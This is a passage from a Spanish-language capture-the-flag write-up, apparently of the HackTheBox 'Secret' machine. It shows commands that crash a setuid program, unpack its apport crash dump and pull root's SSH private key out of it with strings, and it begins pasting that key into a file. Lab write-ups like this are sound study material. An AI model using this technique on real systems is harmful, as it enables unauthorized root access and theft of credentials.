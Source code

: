 ```bash
dasith@secret:/tmp/test$ kill -SIGSEGV 246295
```

Retomamos el proceso (muerto) en segundo plano:

```bash
dasith@secret:/tmp/test$ fg
/opt/count
Segmentation fault (core dumped)
```

Se genera el **dump**:

```bash
dasith@secret:/tmp/test$ ls -la /var/crash/
total 40
drwxrwxrwt  2 root   root    4096 Mar 23 23:30 .
drwxr-xr-x 14 root   root    4096 Aug 13  2021 ..
-rw-r-----  1 dasith dasith 31468 Mar 23 23:30 _opt_count.1000.crash
```

```bash
dasith@secret:/tmp/test$ mv /var/crash/_opt_count.1000.crash .
```

Desempacamos el **dump**:

```bash
dasith@secret:/tmp/test$ apport-unpack _opt_count.1000.crash averque
```

```bash
dasith@secret:/tmp/test$ cd averque/
dasith@secret:/tmp/test/averque$ ls 
Architecture  Date           ExecutablePath       _LogindSession  ProcCmdline  ProcEnviron  ProcStatus  Uname
CoreDump      DistroRelease  ExecutableTimestamp  ProblemType     ProcCwd      ProcMaps     Signal      UserGroups
```

Yyyyy la prueba madre:

```bash
dasith@secret:/tmp/test/averque$ strings CoreDump
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/secret/408bash_dasithSH_stringsCoreDump_idRSArootCONTENT_found.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

SI SI SIIIIIIIIIIIIIIIIIII! Tenemos la llave privada del usuario `root`, esto nos permite ingresar como él sin colocar contraseñaaaaaaaaaaaaaa :D

* [¿Que son las llaves SSH?](https://www.stackscale.com/es/blog/configurar-llaves-ssh-servidor-linux/).
* [How to Use SSH Public Key Authentication](https://serverpilot.io/docs/how-to-use-ssh-public-key-authentication/).

Así que copiémonos toooda la llave y la pegamos en un archivo de nuestra máquina:

```bash
❱ cat root.id_rsa                                                     
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
```
